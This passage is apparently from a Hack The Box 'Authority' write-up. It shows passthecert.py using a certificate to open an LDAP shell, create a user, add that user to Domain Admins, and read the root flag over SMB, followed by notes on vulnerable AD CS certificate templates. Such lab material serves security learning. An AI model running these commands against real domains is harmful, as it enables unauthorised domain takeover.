┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ ython3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip 10.10.11.222
Impacket v0.10.1.dev1+20230223.202738.f4b848fa - Copyright 2022 Fortra

Type help for list of commands

# add_user evyatar9
Attempting to create user in: %s CN=Users,DC=authority,DC=htb
Adding new user with username: evyatar9 and password: KYXmP-bLg$*TdN' result: OK
# add_user_to_group evyatar9 "Domain Admins"
Adding user: evyatar9 to group Domain Admins result: OK
```

At this point, we can establish a connection using SMB to retrieve the root flag:
```console
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ smbclient //authority.htb/C$ -U evyatar9 -W authority.htb
Password for [AUTHORITY.HTB\evyatar9]:
Try "help" to get a list of possible commands.
smb: \> cd \users\administrator\desktop
smb: \users\administrator\desktop\> dir
  .                                  DR        0  Wed Jul 12 20:21:37 2023
  ..                                 DR        0  Wed Jul 12 20:21:37 2023
  desktop.ini                       AHS      282  Wed Jul 12 20:21:37 2023
  root.txt                           AR       34  Fri Aug 11 21:08:48 2023

		5888511 blocks of size 4096. 1147824 blocks available
smb: \users\administrator\desktop\> get root.txt
getting file \users\administrator\desktop\root.txt of size 34 as root.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
┌─[evyatar9@parrot]─[/hackthebox/Authority]
└──╼ $ cat root.txt 
f5b2c33e018877bebf54f11009e30622
```

And we get the root flag `f5b2c33e018877bebf54f11009e30622`.

### Additional information
1. *Certificate Templates*:
In the context of Microsoft Active Directory Certificate Services (AD CS), a certificate template is a blueprint or set of rules that defines the format, key usage, and other properties of certificates that can be issued by a CA. Different templates are used for various purposes, such as user authentication, email encryption, server authentication, and more.

2. *Vulnerable Certificate Template*:
A vulnerable certificate template refers to a certificate template that has been misconfigured or improperly secured, allowing unauthorized or unintended access or privileges. For example, if a certificate template is configured with weak encryption settings, incorrect access controls, or excessive permissions, it could become vulnerable to exploitation. Attackers might exploit a vulnerable certificate template to gain unauthorized access, escalate privileges, or perform other malicious actions within a network or system.